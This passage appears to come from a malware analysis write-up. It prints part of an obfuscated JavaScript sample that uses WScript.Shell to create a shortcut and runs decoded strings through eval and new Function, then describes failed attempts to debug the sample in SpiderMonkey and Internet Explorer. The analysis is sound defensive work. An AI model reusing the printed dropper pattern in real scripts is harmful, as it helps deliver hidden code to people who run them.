 

    var v1, v2, v3;
    v1 = new ActiveXObject('WScript.Shell');
    v2 = v1[ggggggggggggggggggggg_0x1ab0('0x24')]('Templates') + ggggggggggggggggggggg_0x1ab0('0x25');
    v3 = v1['CreateShortcut'](v2);
    v3['TargetPath'] = 'http://google.com';
    try {
            v3['Save'];
    } catch (_0x36ffc4) {
            kbxGyPTslAZIBCHpK = NiHpGaDqKBkoRuUjne(ISUJTkXAHzZxhYfRwd, 'SenDu');
                AGwXxrQZcLfbNdtkqv = eval(kbxGyPTslAZIBCHpK);
                    new Function(NiHpGaDqKBkoRuUjne(CZAxgPWjVfpcuRqvBUe, xsbmgAQcCireMupt))();
    }



It's not clear why this part is relatively unobfuscated, and so we
should consider that it might be a red herring to lead us off the true
actions. Still, it's worth investigating.

## Failed Attempts to Debug

### SpiderMonkey

The first thing I tried was to run the script in `spidermonkey`:



    $ js -f /usr/share/remnux/objects.js -f 2bcd28a0723854c7ef229084d278af6e648c06de695018c070688f262f40e0a5 2bcd28a0723854c7ef229084d278af6e648c06de695018c070688f262f40e0a5:192:0 ReferenceError: ActiveXObject is not defined



I'm sure there is some way to fake an ActiveXObject, but I could not
figure one out, so I decided that if I wanted to debug, I should move to
IE, where ActiveX is built in.

### Internet Explorer

To get the code to open in IE, I wrapped it in
`.md><head><script>debugger;` and
`</script></head><body></body><.md>`, and saved it as `test.md`.

Then, to debug it, I opened the file in IE. IE will warn us that the
page wants to run script, and we'll not allow that, yet:

![](/img/1530928155432.png)

Instead, hit F12 to open the debugger. We'll put a break point at the
line that starts `v1 =`, and then refresh the page, and this time hit
"Allow blocked content".

Unfortunately, I couldn't get anything interesting to happen. Stepping
back, I launched `Process Hacker`, and tried just loading the page and
saying yes at any prompt, and I didn't get anything interesting to load.
